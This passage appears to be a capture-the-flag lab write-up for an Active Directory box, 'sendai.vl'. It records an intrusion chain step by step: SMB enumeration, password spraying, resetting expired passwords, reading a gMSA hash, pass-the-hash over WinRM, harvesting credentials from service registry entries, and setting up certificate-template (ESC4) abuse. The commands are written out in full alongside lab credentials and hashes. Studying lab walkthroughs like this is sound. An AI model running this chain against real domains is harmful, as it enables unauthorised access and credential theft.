| SYYQ58yuw/NsXjbwVBwnHZIltem8xxlpeqD1fyZuSrO8gcp2/Zj+1Bz7PJtgX5vS
| 5skb242cUUIOWqkr83uEcEwEpodyULid0r5kvCqnyt9dAgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| NlUuBo9cN+05po5QCuWU3K7Manm0jFcKX3XzVizcNs5Qgff6V2+TbwPpYo8wK+sM
| tTcICY7Zb6zzDLhoqXEWMXEPp8ruQlgVvP5dw8t4UIka1UXlZjPXWuMHJH93gMab
| 0a/BNhNwTtujEIpzUzmjcHoLXmyNAjGxtEZwNFvxr+PZ8FfAoOUoIVm0NNQKfGJv
| mDzBv92nB5VtF+3OzHhgWzURCreVeMvlbOvmX6c9wZUrXhlRo8KaTZEVgKMSjDZw
| +/PrQvLs6kYnDC7pddt5XWy/wMnEty6+mVTiazStbWGisH+amJUu95Wmd/V4sATn
| /wVB8Sf+yz/+ASp6BV26JA==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-06-18T15:01:07+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50087/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50109/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50181/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55090/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
55091/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55108/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-06-18T15:00:29
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 55645/tcp): CLEAN (Timeout)
|   Check 2 (port 54801/tcp): CLEAN (Timeout)
|   Check 3 (port 32060/udp): CLEAN (Timeout)
|   Check 4 (port 11026/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:01
Completed NSE at 23:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:01
Completed NSE at 23:01, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:01
Completed NSE at 23:01, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.05 seconds
           Raw packets sent: 25 (1.084KB) | Rcvd: 25 (1.084KB)
```

## Findings

- Domain: `sendai.vl`
- Domain Controller: `DC.sendai.vl`
- LDAPS/GC Certificate issuer - `commonName=sendai-DC-CA`. This is the name of the certificate authority.
  - AD CS (Active Directory Certificate Services) are installed.
  - Can be tested with Certipy

## Web ports

```bash
[Jun 18, 2026 - 23:32:31 (+08)] exegol-htb recon # curl -s http://sendai.vl | head -50
[Jun 18, 2026 - 23:32:44 (+08)] exegol-htb recon # curl -sk http://dc.sendai.vl | head -50
```

- Running curl on them doesn't return any sort of response
- Opening it on a browser shows the different IIS website



## SMB shares

_Playbook: 03_service_enum.md — SMB (445) | 06_active_directory.md — Phase 1_

```bash
[Jun 18, 2026 - 23:32:51 (+08)] exegol-htb recon # nxc smb $TARGET -u '' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\:
SMB         10.129.234.66   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED


[Jun 18, 2026 - 23:43:45 (+08)] exegol-htb recon # nxc smb $TARGET -u 'anon' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\anon: (Guest)
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share           Permissions     Remark
SMB         10.129.234.66   445    DC               -----           -----------     ------
SMB         10.129.234.66   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.66   445    DC               C$                              Default share
SMB         10.129.234.66   445    DC               config
SMB         10.129.234.66   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON                        Logon server share
SMB         10.129.234.66   445    DC               sendai          READ            company share
SMB         10.129.234.66   445    DC               SYSVOL                          Logon server share
SMB         10.129.234.66   445    DC               Users           READ
```

- Trying to log in without usernames or passwords gets access denied, but logging in with a random username and blank password gets a listing of shares, because Guest mode is enabled with Read privileges.

```bash
[Jun 19, 2026 - 00:08:45 (+08)] exegol-htb loot # smbclient //$TARGET/sendai -U 'anon'
Password for [WORKGROUP\anon]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 19 01:31:04 2023
  ..                                DHS        0  Wed Apr 16 10:55:42 2025
  hr                                  D        0  Tue Jul 11 20:58:19 2023
  incident.txt                        A     1372  Wed Jul 19 01:34:15 2023
  it                                  D        0  Tue Jul 18 21:16:46 2023
  legal                               D        0  Tue Jul 11 20:58:23 2023
  security                            D        0  Tue Jul 18 21:17:35 2023
  transfer                            D        0  Tue Jul 11 21:00:20 2023

                7019007 blocks of size 4096. 1235769 blocks available
```

- Incident file mentions insecure passwords. There might be a possibility that passwords could be fuzzed.
  - This will need a list of users to test against.

```plaintext
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.
```

- Guidelines file

```plaintext
Company: Sendai
User Behavior Guidelines

Effective Date: [Insert Date]
Version: 1.0

Table of Contents:

Introduction

General Guidelines

Security Guidelines

Internet and Email Usage Guidelines

Data Management Guidelines

Software Usage Guidelines

Hardware Usage Guidelines

Conclusion

Introduction:

These User Behavior Guidelines are established to ensure the efficient and secure use of information technology resources within Sendai. By adhering to these guidelines, users can contrib
ute to maintaining a productive and secure IT environment. It is the responsibility of every employee to read, understand, and follow these guidelines.

General Guidelines:
2.1. Password Security:
a. Users must choose strong passwords that are difficult to guess.I
b. Passwords should be changed regularly and not shared with others.
c. Users should never write down their passwords or store them in easily accessible locations.

2.2. User Accounts:
a. Users must not share their user accounts with others.
b. Each user is responsible for any activities carried out using their account.

2.3. Reporting Incidents:
a. Users must promptly report any suspected security incidents or unauthorized access to the IT department.
b. Users should report any IT-related issues to the IT support team for resolution.

2.4. Physical Security:
a. Users should not leave their workstations unlocked and unattended.
b. Confidential information and sensitive documents should be stored securely.

Security Guidelines:
3.1. Malicious Software:
a. Users must not download or install unauthorized software on company devices.
b. Users should regularly update their devices with the latest security patches and antivirus software.

3.2. Social Engineering:
a. Users should be cautious of phishing emails, phone calls, or messages.
b. Users must not share sensitive information or credentials through untrusted channels.

3.3. Data Backup:
a. Users should regularly back up their important files and data.
b. Critical data should be stored on secure network drives or cloud storage.

Internet and Email Usage Guidelines:
4.1. Acceptable Use:
a. Internet and email usage should be for work-related purposes.
b. Users must not access or download inappropriate or unauthorized content.

4.2. Email Etiquette:
a. Users should maintain professionalism in all email communications.
b. Users should avoid forwarding chain emails or unauthorized attachments.

4.3. Email Security:
a. Users should exercise caution when opening email attachments or clicking on links from unknown sources.
b. Confidential information must not be sent via unencrypted email.

Data Management Guidelines:
5.1. Data Classification:
a. Users must classify data according to its sensitivity level.
b. Users should handle and store sensitive data in accordance with the company's data protection policies.

5.2. Data Privacy:
a. Users must respect the privacy of personal and sensitive information.
b. Unauthorized disclosure or sharing of personal data is strictly prohibited.

Software Usage Guidelines:
6.1. Authorized Software:
a. Users must only use authorized software and adhere to licensing agreements.
b. Users should not install or use unauthorized or pirated software.

6.2. Software Updates:
a. Users should regularly update their software to benefit from the latest features and security patches.
b. Automatic updates should be enabled whenever possible.

Hardware Usage Guidelines:
7.1. Equipment Care:
a. Users should handle company hardware with care and report any damages or malfunctions promptly.
b. Users must not attempt to repair or modify company equipment without proper authorization.

7.2. Personal Devices:
a. Users should not connect personal devices to the company network without prior approval from the IT department.
b. Personal devices used for work purposes must comply with company security policies.

Conclusion:
By following these User Behavior Guidelines, Sendai employees contribute to the overall security, productivity, and effectiveness of the company's IT infrastructure. Users should regularl
y review these guidelines and seek clarification from the IT department whenever necessary.

Failure to comply with these guidelines may result in disciplinary action, including the suspension of IT privileges or other appropriate measures.

For any questions or concerns regarding these guidelines, please contact the IT department at [Contact Information].
```

- The netexec module `rid-brute` is able to get a list of users using the smb service.

_Playbook: 06_active_directory.md — Phase 1 (RID brute force)_

```bash
[Jun 20, 2026 - 00:41:27 (+08)] exegol-htb sendai # cat ./recon/smb_users.txt
SMB                      10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB                      10.129.234.66   445    DC               [+] sendai.vl\guest:
SMB                      10.129.234.66   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.129.234.66   445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB                      10.129.234.66   445    DC               501: SENDAI\Guest (SidTypeUser)
SMB                      10.129.234.66   445    DC               502: SENDAI\krbtgt (SidTypeUser)
SMB                      10.129.234.66   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB                      10.129.234.66   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB                      10.129.234.66   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB                      10.129.234.66   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB                      10.129.234.66   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB                      10.129.234.66   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB                      10.129.234.66   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB                      10.129.234.66   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB                      10.129.234.66   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB                      10.129.234.66   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB                      10.129.234.66   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB                      10.129.234.66   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB                      10.129.234.66   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB                      10.129.234.66   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB                      10.129.234.66   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB                      10.129.234.66   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB                      10.129.234.66   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB                      10.129.234.66   445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB                      10.129.234.66   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB                      10.129.234.66   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB                      10.129.234.66   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB                      10.129.234.66   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB                      10.129.234.66   445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB                      10.129.234.66   445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB                      10.129.234.66   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB                      10.129.234.66   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB                      10.129.234.66   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB                      10.129.234.66   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB                      10.129.234.66   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB                      10.129.234.66   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB                      10.129.234.66   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB                      10.129.234.66   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB                      10.129.234.66   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB                      10.129.234.66   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB                      10.129.234.66   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB                      10.129.234.66   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB                      10.129.234.66   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB                      10.129.234.66   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB                      10.129.234.66   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB                      10.129.234.66   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB                      10.129.234.66   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB                      10.129.234.66   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB                      10.129.234.66   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB                      10.129.234.66   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB                      10.129.234.66   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB                      10.129.234.66   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB                      10.129.234.66   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB                      10.129.234.66   445    DC               1131: SENDAI\support (SidTypeGroup)
```

- ASREP roasting is something that doesn't cost anything, and might yield a kerberos ticket.

_Playbook: 06_active_directory.md — Phase 1 / Phase 2 (AS-REP Roasting)_

```bash
[Jun 20, 2026 - 01:09:42 (+08)] exegol-htb sendai # nxc ldap $TARGET -u ./recon/smb_users.txt -p '' --asreproast asrep.hash
LDAP        10.129.234.66   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl) (signing:None) (channel binding:Never)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

- There's no other output here, and no hash created either. So this can be ruled out.

- The next step is to try to use the information in the password policy to check if there are users with weak passwords.

_Playbook: 06_active_directory.md — Phase 1c (password spraying, STATUS_PASSWORD_MUST_CHANGE)_

- The idea is to test all the users against vulnerable passwords, and check if according to the pw policy, they will be asked to change their password

```bash
[Jun 26, 2026 - 12:08:49 (+08)] exegol-htb recon # nxc smb 10.129.234.66 -u ./users_clean.txt -p '' --shares --continue-on-success
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.66   445    DC               [-] sendai.vl\Administrator: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [+] sendai.vl\Guest:
SMB         10.129.234.66   445    DC               [-] sendai.vl\krbtgt: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\sqlsvc: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\websvc: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Anthony.Smith: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Susan.Harper: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lisa.Williams: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Clifford.Davey: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```

- There are 2 accounts that are flagged as locked out due to weak passwords being used. In this case a blank string.
- It might be possible to use the `smbpasswd.py` Impacket module to set a new password.

```bash
[Jun 26, 2026 - 12:58:04 (+08)] exegol-htb recon # /opt/tools/noPac/venv/bin/smbpasswd.py 'sendai.vl/Elliot.Yates:@10.129.234.66' -newpass 'Sendai@HTB1'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Current SMB password:
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
[Jun 26, 2026 - 12:58:08 (+08)] exegol-htb recon # /opt/tools/noPac/venv/bin/smbpasswd.py 'sendai.vl/Thomas.Powell:@10.129.234.66' -newpass 'Sendai@HTB1'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Current SMB password:
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

- Checking for shares now shows Thomas Powell has access to a few more SMB shares than just the Guest account.

```bash
[Jun 26, 2026 - 12:58:24 (+08)] exegol-htb recon # nxc smb $TARGET -u Thomas.Powell -p Sendai@HTB1 --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\Thomas.Powell:Sendai@HTB1
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share           Permissions     Remark
SMB         10.129.234.66   445    DC               -----           -----------     ------
SMB         10.129.234.66   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.66   445    DC               C$                              Default share
SMB         10.129.234.66   445    DC               config          READ,WRITE
SMB         10.129.234.66   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.234.66   445    DC               sendai          READ,WRITE      company share
SMB         10.129.234.66   445    DC               SYSVOL          READ            Logon server share
SMB         10.129.234.66   445    DC               Users           READ
```

- The config share can be read and written to, so now its possible to enumerate them more:

```bash
[Jun 26, 2026 - 16:10:54 (+08)] exegol-htb loot # smbclient //$TARGET/config -U 'sendai.vl/Thomas.Powell%Sendai@HTB1' -c 'recurse ON; ls'
  .                                   D        0  Fri Jun 26 16:09:30 2026
  ..                                DHS        0  Wed Apr 16 10:55:42 2025
  .sqlconfig                          A       78  Tue Jul 11 20:57:11 2023

                7019007 blocks of size 4096. 1231267 blocks available
[Jun 26, 2026 - 16:11:36 (+08)] exegol-htb loot # smbclient //$TARGET/config -U 'sendai.vl/Thomas.Powell%Sendai@HTB1'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun 26 16:09:30 2026
  ..                                DHS        0  Wed Apr 16 10:55:42 2025
  .sqlconfig                          A       78  Tue Jul 11 20:57:11 2023

                7019007 blocks of size 4096. 1231249 blocks available
smb: \> get .sqlconfig
getting file \.sqlconfig of size 78 as .sqlconfig (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \> exit
```

- The `.sqlconfig` file contains plaintext credentials for the sql instance running someone on the target.

```bash
[Jun 26, 2026 - 16:20:14 (+08)] exegol-htb loot # cat .sqlconfig
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;#
```

- Checking for WinRM connections didn't work with the credentials for the sql service, nor did it work for any of the changed credentials for the users.

## Bloodhound

_Playbook: 06_active_directory.md — Phase 3 (BloodHound Collection)_

- Since 2 users were compromised, it would be good to find out the ACLs they belong to using bloodhound. The collector was run, and uploaded to bloodhound ce. The two compromised users were marked as owned afterwards.
- The user Elliot.Yates seems to be part of the support grounp that has `GenericAll` access over `admsvc`.



- Checking the admsvc group shows that it is able to read Group Managed Service Account password of `mgtsvc` or Management Service.



# Exploit

- Based on bloodhound, the attack chain seems to be:
  - Add one of the 2 compromised users to the admsvc group.
  - Read the gMSA hash for the mgtsvc.
  - Use the hash to winRm into the target.

## Adding Thomas.Powell to ADMSVC

_Playbook: 06_active_directory.md — Phase 5 (ACL Abuse — Add to Group)_

```bash
[Jun 26, 2026 - 20:11:55 (+08)] exegol-htb loot # bloodyAD --host 10.129.234.66 -d sendai.vl -u Thomas.Powell -p 'Sendai@HTB1' add groupMember admsvc Thomas.Powell
[+] Thomas.Powell added to admsvc
```

## Reading the gMSA hash from MGTSVC

_Playbook: 06_active_directory.md — Phase 5 (ReadGMSAPassword)_

```bash
[Jun 26, 2026 - 20:12:01 (+08)] exegol-htb loot # nxc ldap 10.129.234.66 -u Thomas.Powell -p 'Sendai@HTB1' --gmsa
LDAP        10.129.234.66   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl) (signing:None) (channel binding:Never)
LDAP        10.129.234.66   389    DC               [+] sendai.vl\Thomas.Powell:Sendai@HTB1
LDAP        10.129.234.66   389    DC               [*] Getting GMSA Passwords
LDAP        10.129.234.66   389    DC               Account: mgtsvc$              NTLM: 04916851945671b02a176029fac231ba     PrincipalsAllowedToReadPassword: admsvc
```

## Using Hash for initial foothold

_Playbook: 06_active_directory.md — Phase 6 (Pass-the-Hash, evil-winrm)_

```bash
[Jun 26, 2026 - 21:09:00 (+08)] exegol-htb loot # evil-winrm -i $TARGET -u 'mgtsvc$' -H 04916851945671b02a176029fac231ba

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami
sendai\mgtsvc$
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents>
```

# Internal Enumeration

- The initial enumeration starts with `whoami /all`

```powershell
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
sendai\mgtsvc$ S-1-5-21-3085872742-570972823-736764132-1130


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
SENDAI\Domain Computers                     Group            S-1-5-21-3085872742-570972823-736764132-515 Mandatory group, Enabled by default, Enabled group
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

- No `SeImpersonatePrivilege` — potato-based privilege escalation is not available.
- `SeMachineAccountPrivilege` is present but not directly useful without a write path to a computer object.
- Next step is to collect BloodHound data and check ADCS for certificate abuse paths.

## BloodHound

_Playbook: 06_active_directory.md — Phase 3_

- BloodHound was collected using SharpHound and ingested into BloodHound CE. mgtsvc$ was marked as Owned and the "Shortest Paths from Owned Principals" query was run.
- mgtsvc$ has several dangerous ACEs over the ADMINISTRATORS group: `WriteDacl`, `WriteOwner`, `AllExtendedRights`, and `GenericWrite`. However, BUILTIN\Administrators is protected at the Windows OS level — all attempts to modify its membership via LDAP and SAMR return access denied regardless of DACL entries.
- mgtsvc$ also has `GenericAll` over Anthony.Smith and owns the Domain Admins group, but both are blocked by AdminSDHolder: Anthony.Smith is a member of Domain Admins, so SDProp periodically resets his account's DACL. All attempts to force-change his password or write shadow credentials fail.
- The usable path requires credentials for a member of the `ca-operators` group, which has Full Control over the `SendaiComputer` certificate template — an ESC4 misconfiguration.

## ADCS

_Playbook: 06_active_directory.md — Phase 5b (ADCS, certipy find -vulnerable)_

- Certipy was run as mgtsvc$ to identify vulnerable certificate templates.

```bash
certipy find -u 'mgtsvc$@sendai.vl' -hashes ':04916851945671b02a176029fac231ba' -dc-ip 10.129.234.66 -vulnerable -stdout
```

- The `SendaiComputer` template is flagged. The `ca-operators` group has Full Control over it, meaning any ca-operators member can modify the template to allow enrollee-supplied subjects (ESC4 → ESC1).
- ca-operators members:

```powershell
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> net group ca-operators /domain
Group name     ca-operators
Members:
Anthony.Smith        Clifford.Davey
```

- Anthony.Smith is blocked due to AdminSDHolder. Clifford.Davey becomes the target.

## Credential Hunting

_Playbook: 05_windows_privesc.md — Section 6 (Stored Credentials)_

- Standard locations were checked first: Winlogon registry keys (autologon), PowerShell history, cmdkey, scheduled tasks, and transfer directories — all empty.
- Since credentials for `sqlsvc` were found embedded in a config file on an SMB share, the same pattern was applied to service configurations. Custom Windows services that authenticate as domain users often embed credentials as command-line arguments in their `ImagePath` registry value under `HKLM:\SYSTEM\CurrentControlSet\services`.

```powershell
*Evil-WinRM* PS C:\sendai\transfer\thomas.powell> Get-ChildItem -Path HKLM:\SYSTEM\CurrentControlSet\services | ForEach-Object { $_.GetValue("ImagePath") } | Where-Object { $_ } | Select-String -Pattern "\-u |\-p |\-pass|password" -CaseSensitive:$false

C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs
```

- A custom `helpdesk` service is running with Clifford.Davey's credentials hardcoded as command-line flags.

# Privilege Escalation

## ESC4 — SendaiComputer Template

_Playbook: 06_active_directory.md — Phase 5b (ESC4 — Writable Template ACL)_

- Clifford.Davey's credentials are verified against the domain:

```bash
[Jun 26, 2026 - 23:44:58 (+08)] exegol-htb loot # nxc smb 10.129.234.66 -u clifford.davey -p 'RFmoB2WplgE_3p'
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\clifford.davey:RFmoB2WplgE_3p
```

- As a member of `ca-operators`, Clifford.Davey has Full Control over the `SendaiComputer` template. The template is modified using certipy to enable enrollee-supplied subjects (`msPKI-Certificate-Name-Flag: 1`), converting the ESC4 misconfiguration into an exploitable ESC1 condition:

```bash
